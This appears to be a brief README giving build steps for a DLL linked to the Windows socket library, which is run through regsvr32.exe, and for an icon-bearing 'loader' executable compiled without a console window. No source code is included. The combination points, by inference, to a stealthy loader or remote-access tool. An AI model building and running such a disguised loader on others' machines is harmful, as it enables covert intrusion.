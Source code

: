 create the dll: 
  g++ -shared -o main.dll main.cpp -lws2_32

excetute the dll on cmd directly: 
  regsvr32.exe main.dll

convert ico(loader.rc) to loader.res:
  windres loaderr.rc -O coff -o loaderr.res

convert the program(loader.cpp) to loader.exe:
  g++ loaderr.cpp loaderr.res -o loaderr.exe -mwindows

  that's all folks! =)
